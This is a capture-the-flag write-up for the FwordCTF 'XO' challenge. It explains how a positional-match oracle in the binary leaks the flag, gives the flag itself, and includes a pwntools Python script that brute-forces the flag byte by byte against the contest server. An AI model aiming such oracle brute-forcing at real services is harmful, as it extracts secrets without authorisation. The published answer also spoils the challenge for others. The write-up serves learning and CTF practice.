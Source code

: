 # XO

Whatever we input, the binary searches for characters in our input that are the same as a character of the flag in the same position. It prints the number of characters before the first occurrence of this. For example, if the flag was FwordCTF{}, then...

Fgjehrfd -&gt; 0

sws -&gt; 1

gggg -&gt; 4

Using this, we can run a simple byte by byte bruteforce in order to get the data in flag.txt - NuL1\_Byt35?15\_IT\_the\_END?Why\_i\_c4nT\_h4ndl3\_That!}

Adding the flag format, we get the flag, FwordCTF{NuL1\_Byt35?15\_IT\_the\_END?Why\_i\_c4nT\_h4ndl3\_That!}

I used backticks for padding since they were pretty much guaranteed not to be in the flag - we can send backtick\_padding + char and bruteforce "char" until the number returned equals the number of backticks, the character of the flag in that position would be the char where the server returned number is equal to the number of backticks.

## Flag: FwordCTF{NuL1\_Byt35?15\_IT\_the\_END?Why\_i\_c4nT\_h4ndl3\_That!}

```python
from pwn import *
import time
printable = "?_qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890!@#$%^&*(){},./<~\\"
host = ('xo.fword.wtf', 5554)
def getnum(string):
    while True:
        try:
            p = remote(*host)
            break
        except socket.gaierror:
            time.sleep(1)
    #p = process("./task")
    p.recvline()
    p.sendline(string)
    ans = int(p.recvline())
    p.close()
    return ans
flag = ''
i = len(flag)
while '}' not in flag:
    pad = '`'*i 
    for char in printable:
        totry = pad + char
        print(totry)
        if getnum(totry) == i:
            flag += char
            print(f"Flag: {flag}")
            break
    else:
        print(flag)
        quit()
    i += 1
```

